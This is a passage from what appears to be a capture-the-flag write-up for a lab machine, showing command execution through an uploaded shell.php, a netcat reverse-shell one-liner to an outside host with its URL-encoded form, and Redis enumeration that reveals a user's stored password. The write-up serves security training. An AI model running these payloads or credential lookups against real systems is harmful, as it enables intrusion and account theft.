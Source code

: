 response :

```text
www-data
```

Since we can execute come commands, we now are able to get a reverse shell. The command to be executed :

```shell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.23 9001>/tmp/f
```

The URL encoded payload :

```text
http://john.microblog.htb/uploads/shell.php?cmd=rm+/tmp/f;mkfifo+/tmp/f;cat+/tmp/f|/bin/sh+-i+2%3E%261|nc+10.10.14.23+9001%3E/tmp/f
```

With the listener:

```shell
rlwrap -cAr nc -lvnp 9001
```

And we get a shell !!!

## Post-Exploitation

### Host Reconnaissance

The user “cooper” already have a blog, he must have an account saved in the redis database. So let’s explore it !

connect to the redis database :

```shell
which redis-cli
/usr/bin/redis-cli

redis-cli -s /var/run/redis/redis.sock
```

Start by enumerate the keys :

```text
keys *

cooper.dooper
john:sites
cooper.dooper:sites
PHPREDIS_SESSION:fhg5tifdq3b81uspe3hhj3bi8e
john
```

Get cooper keys :

```text
hgetall cooper.dooper

username
cooper.dooper
password
zooperdoopercooper
first-name
Cooper
last-name
Dooper
pro
false
```
